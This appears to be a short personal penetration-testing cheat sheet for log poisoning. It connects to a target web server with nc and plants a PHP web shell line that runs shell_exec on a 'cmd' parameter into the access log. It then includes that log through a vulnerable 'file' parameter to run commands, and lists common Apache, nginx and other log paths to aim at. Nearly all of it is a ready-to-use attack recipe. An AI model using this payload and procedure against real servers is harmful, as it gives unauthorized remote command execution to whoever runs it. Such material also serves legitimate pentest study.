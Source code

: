 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Connect with nc and poison the log:

```bash
nc -nv $TARGET 80
```

```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

What the log file looks like:
![[Pasted image 20220506100915.png]]

```bash
http://$TARGET/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

Common log locations:
Windows xampp
`c:\xampp\apache\logs\access.log`

Linux locations
`/var/log/apache2/access.log`
`/var/log/apache/access.log`
`/var/log/apache/error.log`
`/var/log/apache2/access.log`
`/var/log/apache2/error.log`
`/var/log/nginx/access.log`
`/var/log/nginx/error.log`
`/var/log/vsftpd.log`
`/var/log/sshd.log`
`/var/log/mail`
`/var/log/httpd/error_log`
`/usr/local/apache/log/error_log`
`/usr/local/apache2/log/error_log`


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
